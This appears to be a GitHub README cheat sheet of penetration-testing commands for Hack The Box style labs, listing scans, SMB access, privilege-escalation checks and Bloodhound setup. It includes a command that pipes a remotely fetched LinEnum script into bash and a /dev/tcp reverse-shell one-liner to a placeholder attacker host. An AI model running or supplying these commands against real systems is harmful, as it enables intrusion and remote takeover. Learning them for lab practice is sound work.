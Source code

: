 # Usefull-hacking-tips
Some books you want to read:<br>
<ul>
<li><a href="https://www.amazon.com/gp/product/1980901759/ref=as_li_tl?ie=UTF8&camp=1789&creative=9325&creativeASIN=1980901759&linkCode=as2&tag=1333706-20&linkId=b7f2896fbcc265738ba6f2803339d6d2" target="_blank">The Hacker Playbook 3: Practical Guide To Penetration Testing</a></li>
<li><a href="https://amzn.to/2zvdQmI" target="_blank"> Advanced Penetration Testing: Hacking the World's Most Secure Networks</a></li>
  <li><a href="https://amzn.to/2P9TnbS" target="_blank">Social Engineering: The Science of Human Hacking</a></li>
</ul>

usefull tips and tools for hacking
<ul>
  <li> create a file with a range of ip addresses: seq -f "10.10.10.%g" 1 254 > ip.txt
  <li> or use prips 10.0.0.0/23 > ip.txt (first install prips: apt install prips)
  <li>echo  $HISTFILE to check the history file location
</ul>

<b>Port scan commands</b>
<ul>
  <li> nmap -T4 -sV -sT --reason -p1-65535 --vv -oN 'filename' 'IP'
  <li> nmap -sC -sV -oA filename ip - ippsec parameters
  <li> nmap --script vuln 'IP'
  <li> nmap -sV -sC -A -oN filename ip
  <li> unicornscan -r300 -mU 'IP' - UDP scan. USE -mT for TCP
</ul>

<b>IpSec</b>
<ul>
  <li> python -m SimpleHTTPServer PORT
  <li> curl IP:PORT/LinEnum.sh | bash
</ul>

<b>SMB scan</b>
<ul>
  <li> smbclient -N //ip/sharename
</ul>

<b>Priv Esc</b>
<ul>
  <li> sudo -l
</ul>

    
<b>Shell</b>
<ul>
  <li> python -c 'import pty; pty.spawn("/bin/sh")'
  <li> python -c 'import pty; pty.spawn("/bin/bash")'
  <li> bash -c 'bash -i >& /dev/tcp/YOURIP/PORT 0>&1'
  <li> when having a shell type CTRL-Z to background the shell. then type stty raw -echo and then fg
</ul>

<b>WPscan</b>
<ul>
  <li> wpscan -u URL -eu -ep -et
</ul>


<b>IPSEC hackthebox</b>
<ul>
  <li> juicypotato windows priv esc - Conceal https://www.youtube.com/watch?v=1ae64CdwLHE
  <li> setuid viewuser - Irked https://www.youtube.com/watch?v=OGFTM_qvtVI
  <li> hackthebox squid server - https://www.youtube.com/watch?v=5wyvpJa9LdU
</ul>

<b>Bloodhound</b>
<ul>
  <li> wget -O - https://debian.neo4j.org/neotechnology.gpg.key | sudo apt-key add -
  <li> echo 'deb https://debian.neo4j.org/repo stable/' | sudo tee /etc/apt/sources.list.d/neo4j.list
  <li> sudo apt-get update
  <li> apt-get install neo4j
  <li> apt-get install bloodhound
  <li> neo4j start (set the admin password in the browser)
  <li> bloodhound
</ul>
